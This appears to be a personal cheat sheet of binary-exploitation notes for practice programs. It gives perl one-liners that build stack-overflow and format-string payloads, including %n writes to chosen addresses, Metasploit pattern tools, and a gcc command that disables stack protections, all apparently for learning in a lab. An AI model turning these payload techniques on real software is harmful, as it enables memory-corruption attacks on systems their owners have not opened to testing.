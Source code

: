 ## Using PERL for argument.
     -   bash
        ```perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '```
        ```perl -e 'print  "A"x100 '```
    -   inside gdb
        `# run $(perl -e 'print "A"x100')`
 
## Patterns for rewrite 

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563` 


## Compile in Kali with no protection

gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


## HEX file representation

xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

## Strings search

strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


## Format string example

run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
## File info

show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


## GEF

- to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	
